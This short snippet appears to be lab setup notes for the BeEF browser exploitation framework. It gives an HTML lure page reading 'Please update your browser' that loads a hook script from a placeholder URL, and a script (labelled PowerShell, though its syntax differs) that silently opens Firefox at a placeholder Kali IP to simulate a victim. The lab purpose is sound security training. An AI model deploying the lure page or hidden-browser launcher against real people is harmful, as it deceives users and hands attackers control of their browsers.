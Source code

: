 Simple html page for BeEf

```html
<html>
        <head>
                <script src="<Hook URL>"></script>
        </head>
        <body>
                <h1>Please update your browser to access the website.</h1>
        </body>
</html>
```

Simple script to simulate user interaction with website

```powershell
$path = "C:\Program Files (x86)\Firefox Developer Edition\"
$path1 = "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\"
ShellExecute($path & "firefox.exe", "http://<KALI-IP>", "", "", @SW_HIDE)
WinWait("[TITLE:Firefox Developer Edition]")
WinSetState ("[LAST]", "", @SW_HIDE)
```